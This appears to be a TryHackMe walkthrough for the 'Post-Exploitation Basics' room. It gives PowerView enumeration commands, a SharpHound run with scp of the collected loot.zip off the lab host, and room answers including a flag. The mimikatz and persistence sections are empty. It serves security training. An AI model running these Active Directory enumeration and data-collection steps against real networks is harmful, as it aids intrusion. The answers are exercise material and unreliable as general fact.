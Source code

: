 ![Post-Exploitation Basics Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/postexploit/Post_Exploitation_Basics_Cover.png" alt="Post-Exploitation Basics Logo">
</p>

# Post-Exploitation Basics

This guide contains the answer and steps necessary to get to them for the [Post-Exploitation Basics](https://tryhackme.com/room/postexploit) room.

## Table of contents

- [Enumeration w/ Powerview](#enumeration-w-powerview)
- [Enumeration w/ Bloodhound](#enumeration-w-bloodhound)
- [Dumping hashes w/ mimikatz](#dumping-hashes-w-mimikatz)
- [Golden Ticket Attacks w/ mimikatz](#golden-ticket-attacks-w-mimikatz)
- [Enumeration w/ Server Manager](#enumeration-w-server-manager)
- [Maintaining Access ](#maintaining-access)

### Enumeration w/ Powerview

These questions were a bit difficult as there was no single point of information to use. Multiple posts had different commands, some of which wouldn't work. Some were not listed on each site.

1. What is the shared folder that is not set by default?

   For this I found two commands that could be of use.

   ```cmd
   Get-NetShare

   Invoke-ShareFinder
   ```

   Both would give the attached shared folders. The one without a description is most likely not default.

   POWERVIEW SHARED

   ><details><summary>Click for answer</summary>Share</details>

3. What operating system is running inside of the network besides Windows Server 2019?

   The command that could help with this is `Get-NetComputer`. This would only return a long list of data when used with `-FullData`. Now all we need to do is filter on the operating system as done in the example.

   ```cmd
   Get-NetComputer -FullData | select operatingsystem
   ```

   POWERVIEW OPERATING

   ><details><summary>Click for answer</summary>Windows 10 Enterprise Evaluation</details>

5. I've hidden a flag inside of the users find it

   For this we can actually use the same command as in the example to view the common name (cn) of the user.

   ```cmd
   Get-NetUser | select cn
   ```

   POWERVIEW FLAG

   ><details><summary>Click for answer</summary>POST{P0W3RV13W_FTW}</details>

### Enumeration w/ Bloodhound

To get the necessary data we follow the steps provided. Make sure to use a newer version of the SharpHound.ps1 file. The provided one is incompatible with the latest Bloodhound version. The version in the bloodhound folder works fine.

We copy it to the machine using scp over ssh:

```cmd
scp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 Administrator:10.10.27.24:C:/Users/Administrator/Downloads/SharpHound.ps1
```

Now we can run the script and copy the loot back to our machine.

```cmd
. .\SharpHound.ps1

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

```cmd
scp Administrator:10.10.27.24:C:/Users/Administrator/Downloads/loot.zip loot.zip
```

Now we can import it into Bloodhound.

1. What service is also a domain admin

   For this we use the query: "Find all Domain Admins".

   BLOODHOUND DOMAIN ADMINS

   ><details><summary>Click for answer</summary>SQLSERVICE</details>

3. What two users are Kerberoastable?

   For this we can use the query: "List all Kerberoastable Accounts".

   BLOODHOUND KERBEROASTABLE

   ><details><summary>Click for answer</summary>SQLSERVICE, KRBTGT</details>

### Dumping hashes w/ mimikatz

1. what is the Machine1 Password?



   ><details><summary>Click for answer</summary></details>

2. What is the Machine2 Hash?



   ><details><summary>Click for answer</summary></details>

### Golden Ticket Attacks w/ mimikatz




### Enumeration w/ Server Manager

1. What tool allows to view the event logs?



   ><details><summary>Click for answer</summary></details>

2. What is the SQL Service password



   ><details><summary>Click for answer</summary></details>

### Maintaining Access 
